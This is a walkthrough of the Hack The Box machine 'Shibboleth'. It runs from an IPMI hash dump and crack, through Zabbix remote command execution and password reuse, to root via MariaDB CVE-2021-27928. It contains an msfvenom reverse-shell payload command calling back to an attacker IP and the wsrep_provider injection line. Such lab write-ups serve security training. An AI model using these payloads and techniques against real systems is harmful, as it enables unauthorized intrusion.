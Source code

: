 ```yaml
---
title: "Shibboleth Hackthebox writeup"
header:
  teaser: "/assets/images/shibboleth/20220401204521.png"
tags: ["Hackthebox", "ipmi", "maria-DB", "zabbix"]
categories:
  - Linux Machines
ribbon: blue
date: 2022-04-01T00:49:18+18:08
toc: true
draft: false
---
```


In this Box we are going to enumerate a udp port and dump the administrator hash ,then we will crack it , using these credentials we will login to the zabbix web interface , using my exploit for this version of zabbix we will get a low-privilege shell. re-using same password will leverage our access to a user. for the root part we will exploit a vulnerable maria-db version

<!--more-->

# Scanning :

basic scanning :

```bash
nmap -A -T4 10.10.11.124

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

it was suspicious to have only this port , so i performed a udp scan as well :

```bash
sudo nmap -sU 10.10.11.124

PORT    STATE SERVICE
623/udp open  asf-rmcp
```

we can add `shibboleth.htb` to the `/etc/hosts` and move on to enumeration

# Enumeration :

we can start performing some vhost enumeration :

```bash
ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb"  -fc 302

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

and add them to the `/etc/hosts` as well

```
10.10.11.124	shibboleth.htb	monitor.shibboleth.htb	zabbix.shibboleth.htb
```

the UDP port we have found eariler seems worthy to search for , and you can find [this](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) post from Hacktricks

we can use that to find the version first

![error](/assets/images/shibboleth/20220401205846.png)

then we can try that :

![error](/assets/images/shibboleth/20220401205951.png)

seems to be `IPMI-2.0 UserAuth ` , from the same post we can see :

![error](/assets/images/shibboleth/20220401210253.png)

we can try that :

![error](/assets/images/shibboleth/20220401210325.png)

and it retrieves a hash , we can see if we can crack it.

from hashcat wiki [here](https://hashcat.net/wiki/doku.php?id=example_hashes)

![error](/assets/images/shibboleth/20220401210453.png)

```bash
hashcat -m 7300 hash2 /usr/share/wordlists/rockyou.txt
```

![error](/assets/images/shibboleth/20220401210621.png)

so now we have these credentials `Administrator:ilovepumkinpie1`

after this point i performed some enumeration to the `IPMI` like :

```bash
ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P ilovepumkinpie1  user list
```

and other But seems i went so far from the foothold :(

now we can take a look at the `TCP port 80` we have found earlier

**`shibboleth.htb`** is not interesting at all , all pages are static

![error](/assets/images/shibboleth/20220401211105.png)

**`zabbix.shibboleth.htb`** has login page so obviously i tried the credentials we have

![error](/assets/images/shibboleth/20220401211214.png)

and we are in :

![error](/assets/images/shibboleth/20220401211319.png)

# Foothold:

if you look at the footer you will find the zabbix version:

![error](/assets/images/shibboleth/20220401211354.png)

searching for it i found no exploits , you can start doing your research and will find at the documentation [here](https://www.zabbix.com/documentation/5.4/en/manual/config/notifications/action/operation/remote_command) the web interface can execute remote commands

actually to exploit it you will do a lot of searching in different options at the web page until you find the page.

at this time i was practicing python so why not to write my first published exploit ?

![](https://media.giphy.com/assets/images/3MkhtxEKImJL3HbRzE/giphy.gif)

you will find it [here](https://www.exploit-db.com/exploits/50816)

![error](/assets/images/shibboleth/20220401212257.png)

so let's download it and try using the exploit

![error](/assets/images/shibboleth/20220401212449.png)

and after one minute:

![error](/assets/images/shibboleth/20220401212602.png)

# Privilege escalation:

only one user exist which is `ipmi_svc` , and we have the password from the `ipmi` right , worthy trying it :

![error](/assets/images/shibboleth/20220401212805.png)

and it works

# Root Access

Uploading Linpeas to the Box and start investigating the output :

![error](/assets/images/shibboleth/20220401213204.png)

![error](/assets/images/shibboleth/20220401213240.png)

![error](/assets/images/shibboleth/20220401213444.png)

and as we can see Maria DB is running locally only , and we can see [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/20220401/linpeas.sh) found the username and the password to connect to the database, we can try interact with it

we can read the file except the comments , hence it won't be applicable

```bash
cat /etc/zabbix/zabbix_server.conf | grep -v "#"
```

![error](/assets/images/shibboleth/20220401214523.png)

now let's try interact with it :

```bash
 # password :bloooarskybluh
 mysql -u zabbix -D zabbix -p
```

and we are in :

![error](/assets/images/shibboleth/20220401214650.png)

this Maria-DB version we see at the banner is Vulnerable to **`OS command injection`** , and we can find the exploit [here](https://github.com/Al1ex/CVE-2021-27928)

following the steps:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.52 LPORT=1337 -f elf-so -o CVE-2021-27928.so
```

set the listener and move the `.so` file to the Box. then on the box login to the database then :

```bash
MariaDB [zabbix]> SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";
```

![error](/assets/images/shibboleth/20220401215308.png)
